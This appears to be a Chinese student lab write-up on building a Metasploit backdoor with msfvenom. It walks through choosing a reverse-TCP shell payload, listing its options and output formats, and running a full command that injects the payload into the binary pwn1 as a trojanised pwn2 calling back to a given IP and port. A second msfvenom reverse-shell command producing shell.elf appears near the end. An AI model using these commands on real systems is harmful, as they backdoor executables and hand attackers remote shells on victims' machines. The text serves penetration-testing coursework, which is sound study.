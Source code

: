 - Connect back to attacker and spawn a command shell

反弹连接攻击者，并产生一个shell。

很显然我们选择最后一个，linux/x64/shell_reverse_tcp.



选定了payload，我们需要给它写一些什么参数呢？用这个指令查看



msfvenom -p windows/meterpreter/reverse_tcp --payload-options

image



基础参数就两个LHOST和LPORT。跟在payloa后面设置一下就可以了。



选好了payload，接下来我们-f选payload的输出格式。用这个指令可以查看payload有哪些输出格式。



msfvenom --help-formats

发现有很多：

image



我们的目标是注入到pwn1里去，当然选择ELF格式了！



还可以用-e选择编码器和-i迭代编码的次数。用这个指令查看可用的编码方式。



msfvenom -l encoders

但ELF文件的编码方式应该是机器无关的，不用选这个选项。



最后呢，当然是要用-x参数指定我们的模板pwn1.payload(shellcode)就写入到pwn1这个可执行文件中。



所以，最终我们的指令是



msfvenom -p linux/x64/shell_reverse_tcp LHOST=192.168.226.129 LPORT=4444 -x /root/20155225/pwn1 -f elf -o pwn2

然后把我们毒化的pwn2，复制到靶机里。

打开攻击方的msfconsole，加载exploit/multi/handler模块，设置参数，最后一个exploit指令！攻击！



但是一切似乎不如人意，我在靶机上运行了pwn2,控制机没有任何反应……



然后又在网上找了这篇文章msfvenom生成各类Payload命令，里面说linux里指令要这样写



msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f elf > shell.elf
